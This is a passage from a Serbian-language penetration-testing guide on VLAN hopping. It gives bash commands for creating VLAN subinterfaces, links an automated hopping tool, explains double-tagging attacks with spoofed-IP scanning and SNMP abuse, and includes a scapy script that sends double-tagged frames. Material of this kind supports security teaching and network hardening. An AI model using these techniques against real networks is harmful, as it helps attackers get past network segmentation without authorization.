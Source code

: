 ```bash
# Another configuration example
modprobe 8021q
vconfig add eth1 20
ifconfig eth1.20 192.168.1.2 netmask 255.255.255.0 up
```

```bash
# Another configuration example
sudo vconfig add eth0 30
sudo ip link set eth0.30 up
sudo dhclient -v eth0.30
```

#### Automatski VLAN Hopper

Opisani napad na **Dinamičko Trunkovanje i kreiranje virtuelnih interfejsa i otkrivanje hostova unutar** drugih VLAN-ova se **automatski izvodi** pomoću alata: [**https://github.com/nccgroup/vlan-hopping---frogger**](https://github.com/nccgroup/vlan-hopping---frogger)

#### Dvostruko označavanje

Ako napadač zna vrednost **MAC, IP i VLAN ID žrtvinog hosta**, može pokušati da **dvostruko označi okvir** sa svojom određenom VLAN-om i VLAN-om žrtve i pošalje paket. Pošto **žrtva neće moći da se poveže nazad** sa napadačem, najbolja opcija za napadača je komunikacija putem UDP-a sa protokolima koji mogu izvršiti neke zanimljive akcije (kao što je SNMP).

Druga opcija za napadača je da pokrene **TCP port skeniranje sa lažiranim IP-jem kontrolisanim od strane napadača i dostupnim žrtvi** (verovatno preko interneta). Zatim, napadač može prisluškivati na drugom hostu koji je u njegovom vlasništvu da li prima pakete od žrtve.

![](<../../.gitbook/assets/image (635) (1).png>)

Za izvođenje ovog napada možete koristiti scapy: `pip install scapy`

```python
from scapy.all import *
# Double tagging with ICMP packet (the response from the victim isn't double tagged so it will never reach the attacker)
packet = Ether()/Dot1Q(vlan=1)/Dot1Q(vlan=20)/IP(dst='192.168.1.10')/ICMP()
sendp(packet)
```
